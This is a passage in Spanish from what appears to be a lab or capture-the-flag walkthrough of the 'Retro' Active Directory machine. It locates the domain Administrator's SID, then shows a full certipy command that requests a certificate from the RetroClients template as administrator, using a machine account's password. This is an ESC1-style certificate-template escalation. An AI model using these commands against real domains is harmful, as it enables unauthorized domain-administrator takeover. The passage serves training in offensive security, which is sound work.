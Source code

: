 ![](../img/0c58ebb25854ba04cdd86aad1cd8e6da.png)

📌 Localizamos el SID del `Administrator`:

```bash
500: RETRO\Administrator (SidTypeUser)
```

Este SID es **S-1-5-21-2983547755-698260136-4283918172-500**  
y lo usaremos en la siguiente solicitud de certificado.

### 6. 🔁 Solicitud especificando el SID del `Administrator`

Repetimos la solicitud añadiendo el SID del `Administrator`::

```bash
certipy req -u 'BANKING$@retro.vl' -p NuevaPass123 \
-ca retro-DC-CA -template RetroClients \
-upn administrator@retro.vl \
-sid S-1-5-21-2983547755-698260136-4283918172-500 \
-key-size 4096
```
